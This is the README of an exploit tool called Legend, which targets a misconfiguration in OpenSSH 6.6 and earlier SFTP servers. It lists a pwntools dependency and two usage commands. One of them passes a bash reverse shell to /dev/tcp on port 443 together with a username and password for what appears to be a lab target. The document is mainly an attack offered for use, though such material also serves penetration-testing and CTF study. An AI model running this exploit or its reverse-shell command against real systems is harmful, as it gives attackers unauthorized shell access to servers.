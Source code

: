 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage

```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

```sh
./legend.py -r 10.10.10.66 -p 2222 -u ftpuser -P "@whereyougo?" -c "/bin/bash -pi >& /dev/tcp/10.10.15.59/443 0>&1"
```
